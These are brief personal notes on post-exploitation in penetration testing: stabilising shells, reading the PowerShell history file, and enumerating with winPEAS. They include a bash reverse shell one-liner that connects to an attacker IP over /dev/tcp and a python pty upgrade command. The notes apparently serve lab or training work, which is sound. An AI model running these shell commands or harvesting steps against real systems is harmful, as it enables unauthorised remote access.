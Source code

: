 # Post Exploitation Notes

- Remember that reverse shells are unstable, as they depend on other programs to keep alive the connection. Do what you are going to do fast or upgrade your connection to a more stable handler like multi/handler and a shell like meterpreter.

- History files in Linux and Windows are a good thing to check during the post-exploitation phase. History file in Windows can be found on: `C:\Users\$USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` and it is called `ConsoleHost_history.txt`.

- Consider that as soon as you get RCE using a non conventional way like a web shell or through any other mean different from a reverse or bind shell, try to establish a shell connection as soon as posible.

- A good Privilege Escalation Module that you can use to enumerate some information is winPEASx64.exe for windows. Or PEAS in general.

- Usually, shells in linux are a bit unstable and not really interactive, to upgrade it and make it fully interactive we can run `bash -c "bash -i >& /dev/tcp/10.10.16.2/1234 0>&1"` to run a bash shell. And we can run `python3 -c 'import pty;pty.spawn("/bin/bash")'` to turn it into a proper terminal.
